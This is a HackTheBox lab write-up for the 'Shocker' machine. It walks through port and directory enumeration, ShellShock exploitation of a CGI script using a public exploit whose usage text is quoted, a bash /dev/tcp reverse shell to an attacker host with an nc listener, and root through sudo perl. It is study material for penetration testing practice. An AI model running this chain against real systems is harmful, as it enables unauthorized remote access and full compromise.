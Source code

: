 ```yaml
---
title: "HTB: Shocker Write-up"
date: 2021-05-03 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - linux
  - web
---
```


As promised, here is the first of the HackTheBox write-ups that I am going to be putting out weekly. For the first write-up I picked the first Linux box from TJNull's excellent [list of OSCP-like HackTheBox machines][htb-list] (that I hadn't already pwned).

## Phase 1: Enumeration

As with any boot2root, the first step is kicking off some external port scans to see whats up and kicking. I recently discovered [AutoRecon][autorecon] by Tib3ruis, and I have since made it a staple of my boot2root arsenal. It's great at automating all the low level stuff that you would be doing by hand, and it can usually find the low-hanging fruit pretty fast.

```bash
autorecon -o shocker --single-target 10.10.10.56  
```

From the `nmap` output we can see that there is a web-server on port 80, and SSH on port 2222.

```
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
```

SSH on 2222 is a little odd, but I'm going to chalk this up to just avoiding top-10 port scans. The web server seems like the juicy target here, but I'm going to just do a quick check to make sure that the SSH service isn't using any [bad keys][bad-keys].

```bash
cd ~/tools/ssh-badkeys
grep -R "AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREG" .
```

Nadha, worth a shot. Now that I know the SSH is secure, it's time to poke at the web-server. The first step to any web-server enumeration is always to perform directory enumeration, which `autorecon` has handily done for us. Time to check the GoBuster output.

```
/.htaccess.aspx       (Status: 403) [Size: 300]
/.htpasswd.aspx       (Status: 403) [Size: 300]
/.htaccess.jsp        (Status: 403) [Size: 299]
/.htpasswd.jsp        (Status: 403) [Size: 299]
/.htaccess.txt        (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd.txt        (Status: 403) [Size: 299]
/.htaccess.html       (Status: 403) [Size: 300]
/.htpasswd.html       (Status: 403) [Size: 300]
/.htaccess.php        (Status: 403) [Size: 299]
/.htaccess.asp        (Status: 403) [Size: 299]
/.htpasswd.php        (Status: 403) [Size: 299]
/.htpasswd.asp        (Status: 403) [Size: 299]
/cgi-bin/             (Status: 403) [Size: 294]
/cgi-bin/.html        (Status: 403) [Size: 299]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
```

Hmmm, not a lot there. I'm going to kick off another scan with a bigger wordlist just incase something was missed. This time I'm going to use `ffuf` because its speed is unrivaled and I am more familiar with its flags.

```bash
ffuf -u http://10.10.10.56/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -of csv -o ./raft-large.csv
```

While that was running, I went to check the other `autorecon` scan output. This is where I ended up getting stuck for some time because I didn't properly enumerate the "cgi-bin" directory. I went diving down other rabbit holes, and eventually had to look up a hint. I was close in my enumeration attempts, but I just used the `CGIs.txt` file as my wordlist from the web root (which didn't have the endpoint I needed).

**Wrong Command (That I Ran)**

```bash
ffuf -u http://10.10.10.56/FUZZ -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -of csv -o ./raft-cgis-ext.csv -e .cgi,.php,.py,.sh
```

What I should have done was to scan the "cgi-bin" directory using a wordlist like `raft-large-directories.txt` with the extensions I specified.

**Right Command (That I Should Have Run)**

```bash
ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -of csv -o ./raft-cgi-bin-ext.csv -e .cgi,.php,.py,.sh
```

Nearly immediately we can see the new endpoint.

```
user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
```

This can stand as a valuable learning lesson for the future. Always, always, always properly enumerate directories - even if the root gives you a 403. Each directory should always be put through some directory enumeration tool, such as `ffuf`, so that better coverage can be achieved.

## Phase 2: Exploitation

From here, I kind of cheated a little. I used some intuition by looking at the name of the Box and the location of *the only endpoint we found* and assumed that the box was vulnerable to ShellShock. So, I looked up some shellshock exploits using `searchsploit` and found a few candidates. There were `metasploit` modules for this exploit, but I didn't want to use `metasploit` so I looked for stand alone exploits.

```bash
$ searchsploit shellshock
...
Apache mod_cgi - 'Shellshock' Remote Command Injection | linux/remote/34900.py
```

Lets go ahead and pull that one down and inspect it.

```bash
ssp -m linux/remote/34900.py
mv 34900.py shellshock.py
less shellshock.py
```

```python
#! /usr/bin/env python
from socket import *
from threading import Thread
import thread, time, httplib, urllib, sys 

stop = False
proxyhost = ""
proxyport = 0

def usage():
 print """

  Shellshock apache mod_cgi remote exploit

Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages:  specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234

Credits:

Federico Galatolo 2014
"""
...
```

Okay, seems straightforward enough. Only one thing to do and thats give her a go.

```bash
$ ./shellshock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.10 lport=8000 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly
```

Rock on! We have a shell on the target. Next up is to make this shell into something a little more serviceable. I didn't like the way I was encapsulated in a python script, so I made a new reverse shell connection using `bash` and `nc`.

**Victim**

```bash
bash -i >& /dev/tcp/10.10.14.10/1234 0>&1
```

**Kali**

```bash
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.56] 58284
bash: no job control in this shell
shelly@Shocker:/tmp$ 
```

Next step was to upgrade the shell.

```bash
shelly@Shocker:/tmp$ python3 -c "__import__('pty').spawn('/bin/bash')"
```

Once I have a TTY, I followed [this guide][tty-shell] for getting a proper TTY shell over `nc`.

## Phase 3: Privilege Escalation

My go-to linux privilege escalation script is the fantastic [linpeas.sh][linpeas] by carlospolop. I used `wget` to get it onto our victim machine, then let it rip. Something immediately caught my eye while the output was scrolling past.

```
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Our user can run `perl` with `sudo`! I know that `perl` can be used to escalate privileges to root, so I went to check [GTFObins][gtfobins] to see how I could do that. Sure enough, [GTFObins] provided me with the following command.

```bash
shelly@Shocker:/tmp$ sudo perl -e 'exec "/bin/bash"'
root@Shocker:/tmp# whoami
root
```

Thanks for reading my write-up of Shocker. I plan on doing plenty more of these as I inch closer to my OSCP exam attempt, so if you liked it there will be more soon.

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[gtfobins]: https://gtfobins.github.io/

